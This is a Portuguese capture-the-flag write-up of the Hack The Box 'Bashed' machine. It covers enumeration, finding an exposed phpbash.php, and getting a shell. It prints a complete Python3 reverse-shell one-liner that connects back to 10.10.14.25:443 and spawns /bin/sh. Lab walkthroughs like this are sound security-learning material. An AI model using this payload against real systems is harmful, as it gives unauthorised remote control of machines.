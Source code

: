 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy, CVE 2017-6074, CVE 2017-16995, kernel exploit]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/1.jpg)

## Enumeration

Iniciamos a enumeracao, usando o autorecon para ganhar tempo...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/2.jpg)

Em paralelo eu estava olhando o site manualmente, de inicio vc ja encontra algumas dicas sobre a maquina..

Apos isso, fui verificar o output do autorecon e encotrei algumas coisas interessantes

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/3.jpg)

Veja o code de cada dir encontrado, os de `code 308` sao os mais imnportantes, entao precisava verificar cada um deles, ao verificar o `/dev` encontro o que eu estava procurando.. o `phpbash.php` entao ali eu ja tinha um bash em php, eu precisava agora ter uma reverse shell.

## Reverse Shell

Usando a tool [gorevpop](https://github.com/an4kein/gorevpop) que eu criei recentemente usando Go, gerei um payload python3 e em seguida ja estava com uma reverse shell

```
root@kali:~/HTB-Linux/bashed# go run /opt/gorevpop/main.go 19 10.10.14.25 443                                        

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bashed/4.jpg)


